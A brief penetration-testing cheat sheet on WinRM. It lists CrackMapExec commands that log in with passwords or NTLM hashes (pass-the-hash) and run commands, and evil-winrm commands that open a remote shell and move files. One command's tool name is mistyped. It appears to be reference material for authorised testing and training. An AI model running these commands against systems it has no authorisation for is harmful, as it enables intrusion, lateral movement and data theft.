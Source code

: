 ###### Authentication
```
cme winrm ip -u username -p password
cme winrm ip -u username -p password -x command
cmd winrm ip -u username -H ntlm_hash
cme winrm ip -u username -H ntlm_hash -x command
```

###### Get-shell
>This shell is the ultimate WinRM shell for hacking/pentesting.

>WinRM (Windows Remote Management) is the Microsoft implementation of WS-Management Protocol. A standard SOAP based protocol that allows hardware and operating systems from different vendors to interoperate. Microsoft included it in their Operating Systems in order to make life easier to system administrators.


```
evil-winrm -i ip -u username -p password
evil-winrm -i ip -u username -H ntlm_hash

evil-winrm basic commands:
Upload usage: upload local_filename or upload local_filename destination_filename
Download usage: download remote_filename or download remote_filename destination_filename

```

